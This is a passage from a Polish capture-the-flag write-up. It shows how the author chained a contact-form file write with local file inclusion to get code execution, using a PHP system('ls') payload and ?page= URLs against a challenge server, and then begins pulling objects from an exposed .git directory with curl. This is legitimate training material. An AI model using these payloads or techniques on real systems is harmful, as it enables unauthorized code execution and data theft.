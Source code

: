 Niestety znalezienie flagi w ten sposób nie było trywialne. Jednak na stronie istniał również formularz kontaktowy, który pozwalał nam zapisywać pliki po stronei serwera. Łącząc te 2 podatności, mogliśmy uzyskać proste wykonanie kodu (RCE) i znaleźć flagę. Jako treść wiadomości wystarczyło podać kod php z komendą systemową:

```php
<?php
system('ls');
?>
```

Zapisany plik byłzwracany w postaci błędu: `Warning: Can't attach data from file: data/6225875d267b7.txt in /var/www/html/index.php on line 12`

Teraz wystarczyło wykorzystać LFI aby go wykonać:

`http://165.232.88.198/?page=data/6225875d267b7.txt`

W zwrotce dostawaliśmy listing katalogu:

`data home.html index.php kontakt.html logo.png onas.html this_is_the_file_containg_our_flag.txt zespol.html`

Po czym juz spokojnie mogliśmy odczytać flagę za pomocą LFI:

`http://165.232.88.198/?page=this_is_the_file_containg_our_flag.txt`

### Gildia Internetowych trolli

Nieco bardziej skomplikowane zadanie, wymagało trochę znajomości internalsów GITa. Szczerze nie jestem pewny czy zrobiłem je w najprostszy możliwy sposób i moze założone rozwiazanie było odrobine prostsze.

W opisie zadania dostawaliśmy link do storny na której byłą flaga ale w formie ocenzurowanej i log z DirBustera, który dawał nam jeden katalog: 

`https://1753ctf.ams3.digitaloceanspaces.com/g/.git/HEAD`

To pokazywało nam, ze jest tam dostepne repozytorium GIT. Wiedząc, że mamy doczynienia z gitem, mogliśmy siędomyślić, że w zadaniu chodzi o znalezienie poprzedniej wersji strony w repozytorium. Jednak próby zwykłego sklonowania repo kończyły się kodem 403 (przynajmniej w moim wypadku). Natomiast mogliśmy uzyskiwać dostęp do poszczególnych obiektów w podkatalogu .git. 

Aby wiedzieć jak odczytać dane z tego podkatalogu, trzeba mieć troche wiedzy o tym jak działa git. Sam nie jestem ekspertem z tego zakresu, wiecp olecam przeczytać ten artykuł, który naprowadził mnie na rozwiązanie: https://matthew-brett.github.io/curious-git/git_object_types.html

Generalnie w `https://1753ctf.ams3.digitaloceanspaces.com/g/.git/HEAD` mamy referencje do ostatniego obiektu typu commit:

```
curl https://1753ctf.ams3.digitaloceanspaces.com/g/.git/HEAD
ref: refs/heads/master
```

Wykonując następujące zapytanie, możemy znaleźć hash tego obiektu:

```
curl https://1753ctf.ams3.digitaloceanspaces.com/g/.git/refs/heads/master
795727cd49e0c4f49581151c9ec6bd856650f842
```
